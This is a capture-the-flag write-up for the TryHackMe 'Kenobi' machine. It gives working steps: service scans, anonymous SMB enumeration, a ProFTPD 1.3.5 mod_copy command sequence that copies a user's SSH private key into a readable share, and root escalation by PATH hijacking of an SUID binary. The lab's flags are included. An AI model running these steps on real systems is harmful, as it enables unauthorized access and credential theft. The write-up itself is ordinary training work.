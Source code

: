 # 27 SEP 2021 | hussien Misbah | kenobi THM


export IP=10.10.215.96

# Scanning 

$ nmap -sV -v $IP -oN nmap/intial

```bash
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         ProFTPD 1.3.5
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
111/tcp  open  rpcbind     2-4 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
2049/tcp open  nfs_acl     2-3 (RPC #100227)

```
$ nmap -sC -v  $IP -oN nmap/default_scripts

useful info from output :
```bash

samba version : Samba 4.3.11-Ubuntu
Computer name: kenobi

```

# enumeration 


port 80 :
---------
found /robots.txt 

visit :http://10.10.215.96/admin.html

"it is a trap"

- so it is just a rabbit hole .

port 445  :
----------

$ ./enum4linux.pl 10.10.215.96 

output :

```bash

//10.10.215.96/anonymous	Mapping: OK Listing: OK Writing: N/A

```

$ smbclient //10.10.215.96/anonymous     

smb:\> get log.txt


log.txt :

```

private key : /home/kenobi/.ssh/id_rsa
[anonymous]
path = /home/kenobi/share  ==> ftp running on 

```


port 111 :
---------

Your earlier nmap port scan will have shown port 111 running the service rpcbind. This is just a server that converts remote procedure call (RPC) program number into universal addresses. When an RPC service is started, it tells rpcbind the address at which it is listening and the RPC program number its prepared to serve. 

In our case, port 111 is access to a network file system. Lets use nmap to enumerate this.

```bash

$ nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.215.96

```

or 

```bash

$ showmount -e  10.10.215.96
Export list for 10.10.215.96:

/var *

```
so port 111 is making  /var as a server 


port 21 :
----------

version : ProFTPD 1.3.5

/home/kali/OSCP/5/exercise_2/grep_exploits.sh 'ProFTPD 1.3.5' 

3 exploits found 

# exploitation 

putting all this together ^^ 

hence we have access to /home/kenobi/share from the smb , and we know the path of id_rsa , Also we have exploit for version of ftp enables us to move a file to another location in the server , we can copy /home/kenobi/.ssh/id_rsa ==>  /home/kenobi/share/id_rsa , then we can get this file latter thanks to smb ! 



```bash

$ nc $IP 21                                

220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.215.96]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO  /home/kenobi/share/id_rsa
250 Copy successful

```
$ smbclient //10.10.215.96/anonymous

smb: \> get id_rsa

now we have it ! 


# access 

sudo ssh -i ida_rsa kenobi@$IP 


===============================
	    	we are in 
===============================


user flag > d0b0f3f53b6caa532a83915e19224899



# privilege escalation


$ find /  -user root -perm -4000 2>/dev/null


grep -Fxv -f suid_mine sudi_machine


+/usr/bin/menu  is odd 


path poisonning :
-------------------
hence in option 1 it will curl local host 
we can notice that from output or from strings command 

we can update PATH variable so it will search for curl at a palce from our choice before it search in default path 

```bash

kenobi@kenobi:~/share$echo "/bin/bash" > curl
kenobi@kenobi:~/share$chmod 777 curl 
kenobi@kenobi:~/share$export PATH=~/share:$PATH

```

* Setting 777 permissions to a file or directory means that it will be readable, writable and executable by all users

hence it will execute the /bin/bash as file owner which is "root" obviously ^^ 

we can have a bash root shell !


> root flag : 177b3cd8562289f37382721c28381f02



# done         
